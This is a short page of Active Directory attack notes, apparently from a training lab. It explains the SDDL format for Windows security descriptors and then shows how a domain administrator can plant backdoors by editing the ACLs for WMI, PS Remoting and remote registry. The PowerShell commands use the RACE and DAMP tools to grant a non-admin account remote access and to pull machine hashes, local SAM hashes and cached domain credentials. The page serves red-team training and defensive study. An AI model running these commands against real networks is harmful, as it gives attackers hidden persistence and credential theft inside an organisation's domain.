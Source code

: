 # Security Descriptors

## Format

Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor.

{% tabs %}
{% tab title="Syntax" %}
`ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
{% endtab %}
{% endtabs %}

Detailed docs about SDDL:

{% embed url="https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings" %}

## Exploitation

Once we have administrator privileges it is possible to create a backdoor by modifying Security Descriptors like Owner, primary group, DACL and SACL of multiple remote access methods to allow access to non-admin users.

### WMI - GUI

It is possible to add the non-admin user to the ACE using the `Component Services` and `Computer Management`.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Component Services</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

Apply to all namespaces

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

<pre class="language-powershell"><code class="lang-powershell"><strong># Check if worked
</strong><strong># Worked if didn't get access denied 
</strong><strong>gwmi -class win32_operatingsystem -ComputerName &#x3C;dc_machine>
</strong></code></pre>

### WMI - PowerShell

ACE for built-in administrators for WMI namespaces `A;CI;CCDCLCSWRPWPRCWD;;;SID`

in order to get access to WMI namespaces attacker needs to create a new ACE with the `SID` to non-admin user which he controls.

ACLs can be modified to allow non-admin users using the [RACE toolkit](https://github.com/samratashok/RACE):

{% hint style="danger" %}
Require Domain Admin privileges
{% endhint %}

```powershell
# Loading the module
. C:\AD\Tools\RACE-master\RACE.ps1


Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

# with explicit credentials
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose

# Remove
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose

```

PS Remoting (not stable after August 2020 patches)

```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose

# Remove
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

### Remote Registry

**Reg backdoo**r using [DAMP](https://github.com/HarmJ0y/DAMP) Tool allows to non-admin user to retrieve the hash of the computer, the SAM and cached credentials in the computer:

```bash
# Modify ACE with admin privs
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# retrieve machine hash
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```
